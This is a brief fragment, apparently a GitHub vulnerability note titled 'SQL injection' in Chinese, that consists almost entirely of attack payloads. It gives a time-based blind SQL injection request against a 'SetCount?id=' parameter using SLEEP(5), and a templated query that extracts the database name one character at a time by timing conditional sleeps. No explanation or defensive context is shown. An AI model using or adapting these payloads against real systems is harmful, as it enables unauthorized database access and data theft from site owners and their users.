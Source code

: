 ## sql注入
    SetCount?id=63200' AND (SELECT * FROM (SELECT(SLEEP(5)))RING) and 'RING'='RING
```sql
(SELECT * FROM (SELECT(SLEEP((ASCII(MID(LOWER(DATABASE())," + str(i) + ",1))=" + str(ord(_str)) + ")*5)))RING)
```
